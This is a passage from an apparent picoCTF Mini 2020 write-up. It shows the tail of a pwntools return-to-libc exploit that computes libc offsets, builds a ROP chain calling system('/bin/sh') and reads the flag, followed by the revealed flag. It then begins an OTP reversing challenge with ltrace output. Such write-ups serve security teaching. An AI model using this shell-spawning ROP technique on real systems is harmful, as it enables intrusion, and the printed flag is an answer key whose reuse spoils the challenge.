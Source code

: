 ```python
# RAND_OFFSET = 0x39170
# SYSTEM_OFFSET = 0x456e0
# STR_BIN_SH_OFFSET = 0x195108
#libc 2.27
RAND_OFFSET = 0x30fe0
SYSTEM_OFFSET = 0x3cd80
STR_BIN_SH_OFFSET = 0x17bb8f
libc_base = rand_sym - RAND_OFFSET
system = libc_base + SYSTEM_OFFSET
binsh = libc_base + STR_BIN_SH_OFFSET
print("rand:", hex(rand_sym))
rop = ROP(elf)
rop.call(system, [binsh])
send_rop(rop.chain())

p.sendline("cat flag.txt;exit;")
print(re.search("(picoCTF{.*?})",p.recvall().decode()).group(1))
```

flag: 
```text
picoCTF{p0p_r0p_4nd_dr0p_1t_506b81e98597929e}
```
# OTP Implementation


```text
Yay reversing! Relevant files: otp flag.txt
```

[otp](/ctf/picoctf-mini-2020/otp/otp)


![main function](/picoctf-mini-2020/otp/main1.png)
![valid_char function, returns true if it is a valid char in a hex string](/picoctf-mini-2020/otp/valid_char.png)

So to summarize:
1. It copies 100 chars from the first argument
2. It does gross stuff that I don't care to reverse
3. If a char isn't a valid hex string it'll fail. 
4. If it doesn't process 100 characters it'll fail.  

In an attempt to avoid manually reversing the code I took a look at it using ltrace.  
```text
❯ ltrace ./otp aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
strncpy(0x7ffc8cd5be70, "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"..., 100)                                                                                  = 0x7ffc8cd5be70
strncmp("fkpejodinchmbglafkpejodinchmbgla"..., "mlaebfkoibhoijfidblechbggcgldice"..., 100)                                                           = -7
puts("Invalid key!"Invalid key!
)                                                                                                                                 = 13
+++ exited (status 1) +++
❯ ltrace ./otp baaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
strncpy(0x7ffc13641a60, "baaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"..., 100)                                                                                  = 0x7ffc13641a60
strncmp("hmbglafkpejodinchmbglafkpejodinc"..., "mlaebfkoibhoijfidblechbggcgldice"..., 100)                                                           = -5
puts("Invalid key!"Invalid key!
)                                                                                                                                 = 13
+++ exited (status 1) +++
```
